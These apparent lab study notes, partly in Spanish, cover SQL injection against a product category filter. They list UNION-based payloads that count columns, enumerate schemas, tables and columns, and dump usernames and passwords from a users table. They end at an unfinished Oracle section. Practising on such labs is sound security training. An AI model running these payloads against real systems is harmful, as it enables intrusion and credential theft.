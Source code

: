 - Injection

```sql
SELECT * FROM products WHERE category = 'Gifts' order by 2-- -' AND released = 1
```

```sql
SELECT * FROM products WHERE category = 'Gifts' union select '1','2'-- -' AND released = 1
```

```sql
SELECT * FROM products WHERE category = '' union select NULL, schema_name from information_schema.schemata-- -' AND released = 1
```

```sql
SELECT * FROM products WHERE category = '' union select NULL, table_name from information_schema.tables where table_schema='public'-- -' AND released = 1
```

```sql
SELECT * FROM products WHERE category = '' union select NULL, table_name from information_schema.tables where table_schema='public'-- -' AND released = 1
```

```sql
SELECT * FROM products WHERE category = '' union select NULL, column_name from information_schema.columns where table_schema='public' and table_name='users_arxcok'-- -' AND released = 1
```

```sql
SELECT * FROM products WHERE category = '' union select username_eamrnf, password_hpgqls from public.users_arxcok-- -' AND released = 1
```

## Enumeración de bases de datos en Oracle || SQL injection attack, listing the database contents on Oracle

- Query SQL

```sql
SELECT * FROM products WHERE category = '$INPUT$' AND released = 1
```

- Explotation
